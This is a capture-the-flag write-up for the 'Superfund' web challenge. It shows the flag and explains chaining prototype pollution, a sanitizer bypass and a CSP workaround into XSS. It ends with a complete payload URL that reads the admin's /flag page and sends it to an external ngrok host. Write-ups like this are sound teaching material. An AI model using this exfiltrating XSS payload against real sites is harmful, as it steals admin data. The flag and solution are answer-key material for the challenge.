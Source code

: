 ## Superfund

### Description

We're trying to educate the world about environmental justice, but our admin followed a link sent by a hacker, and then the hacker got access to sensitive admin functionality. Can you figure out how they did it so we can stop it from happening again? Our developers tried and couldn't figure it out, but they did leave some comments along the way.  Here's the [source code](http://link.to/source/code.zip) for the server.

### Flag

`shaktictf{_3nv120nm3n741_ju571c3_}`

### Solution

 - You need to send the admin a link via the admin bot and use XSS to access the `/flag` route and send it to your own server
 - You'll need to setup a server to receive the result. For example, combine an [http server](https://github.com/zoeyg/sec/blob/master/tools/simple-http-server.js) that will accept requests with ngrok.com to expose it externally
 - Use prototype pollution and the debug functionality to bypass the HTML sanitizer, you'll then hit the CSP
 - To get around the CSP use a relative url
 - An example url to send the admin:

```
https://superfund-challenge.2r.is/x/..%2fadmin/index.html?debug={"__proto__":{"allowedAttrs":["src","onerror"]},"user":{"name":"<img+src=x+onerror=fetch('/flag').then(r=%26gt;r.text()).then(d=%26gt;fetch('https://5103fe977eae.ngrok.io/b64/'%2Bbtoa(d))) />"}}&id=x
 ```

### Author

Zoey